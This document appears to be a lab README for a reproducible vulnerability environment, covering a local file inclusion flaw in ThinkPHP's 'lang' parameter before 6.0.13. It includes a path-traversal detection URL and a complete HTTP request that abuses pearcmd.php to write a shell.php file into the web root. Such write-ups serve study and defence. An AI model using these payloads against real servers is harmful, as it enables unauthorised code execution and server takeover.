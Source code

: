 # ThinkPHP Lang Local File Inclusion

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In the version prior to 6.0.13, a local restricted file inclusion issue exists in `lang` parameter if the developer enable multiple language pack. 

Although this issue is only allowed to include ".php" file, the attacker is still able to use the "pearcmd.php" to write arbitrary file and execute code in the server.

References:

- <https://tttang.com/archive/1865/>
- <https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp> (about the "pearcmd.php trick")

## Vulnerability Environment

Execute following command to start a server that is developed by ThinkPHP v6.0.12:

```
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the default welcome page of ThinkPHP.

## Exploit

Firstly, because the multiple language feature is not enabled by default, you can try to include the `public/index.php` to determine whether the vulnerability exists:

```
http://localhost:8080/?lang=../../../../../public/index
```

![](1.png)

The vulnerability exists if the server crashed and a 500 error response comes back.

Then, try to write data through "/usr/local/lib/php/pearcmd.php":

```
GET /?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

If the server response the output of pearcmd, which means the exploit is successful:

![](2.png)

As you can see, the `shell.php` is written in root directory of web:

![](3.png)

